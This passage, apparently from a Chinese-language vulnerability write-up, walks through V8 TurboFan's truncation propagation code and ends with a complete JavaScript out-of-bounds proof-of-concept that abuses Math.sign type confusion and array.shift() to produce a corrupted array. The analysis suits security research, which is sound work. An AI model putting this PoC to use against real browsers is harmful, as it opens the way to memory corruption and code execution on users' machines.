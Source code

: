 ```
      TRACE("   added: %s\n", info->truncation().description());
    } else {
      TRACE(" inqueue: %s\n", info->truncation().description());
    }
  }
}
```
它首先通过```
Node* node = use_node->InputAt(index);
NodeInfo* info = GetInfo(node);```来获取输入节点对应的nodeinfo信息，之后调用AddUse来更新nodeinfo中的truncation_成员，从而实现截断的传播。
```
bool AddUse(UseInfo info) {
      Truncation old_truncation = truncation_;
      truncation_ = Truncation::Generalize(truncation_, info.truncation());
      return truncation_ != old_truncation;
    }
```

3、 SetOutput
它同样是一个模版函数。
- 截断传递截断，它将更新节点对应的nodeinfo的 restriction_type_。
- retype截断，它将更新节点的representation表示。

```
template <>
void RepresentationSelector::SetOutput<PROPAGATE>(
    Node* node, MachineRepresentation representation, Type restriction_type) {
  NodeInfo* const info = GetInfo(node);
  info->set_restriction_type(restriction_type);
}

template <>
void RepresentationSelector::SetOutput<RETYPE>(
    Node* node, MachineRepresentation representation, Type restriction_type) {
  NodeInfo* const info = GetInfo(node);
  DCHECK(info->restriction_type().Is(restriction_type));
  DCHECK(restriction_type.Is(info->restriction_type()));
  info->set_output(representation);
}
```

##### 完整的oob poc：

这里用到了array.shift()这个trick（现在最新版本该trick已被修复），由于篇幅的限制这里就先不展开写了。
```
function foo(a) {
    var y = 0x7fffffff;
    if (a == NaN) y = NaN;
    if (a) y = -1;
    let z = y + 1;
    z >>= 31;
    z = 0x80000000 - Math.sign(z|1);
    if(a) z = 0;
    var arr = new Array(0-Math.sign(z));
    arr.shift();
    var cor = [1.1, 1.2, 1.3];
    return [arr, cor];
}
%PrepareFunctionForOptimization(foo);
foo(true);
%OptimizeFunctionOnNextCall(foo);
print(foo(false));
```
有了oob之后写exp就很容易了，就是常规写法这里就不叙述了。
